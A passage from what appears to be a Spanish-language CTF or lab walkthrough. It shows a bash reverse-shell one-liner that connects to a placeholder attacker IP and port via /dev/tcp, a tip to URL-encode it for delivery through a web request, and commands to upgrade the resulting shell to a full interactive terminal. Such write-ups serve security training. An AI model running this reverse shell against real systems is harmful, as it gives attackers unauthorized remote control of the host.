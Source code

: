 y de aquí mandaremos la reverse shell recuerda (url codear los "&" para evitar problemas)

```bash 
bash -c "bash -i >& /dev/tcp/your_ip/your_port 0>&1"
```

![Paste](./25.jpeg)

![Paste](./26.jpeg)

![Paste](./27.jpeg)

## Aplicamos tratamiento a la reverse shell

```bash
script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

#Ajustar a tus proporciones de pantalla 
#Adjust to your screen ratios
export TERM=xterm;export SHELL=bash;stty rows 41 columns 192
```
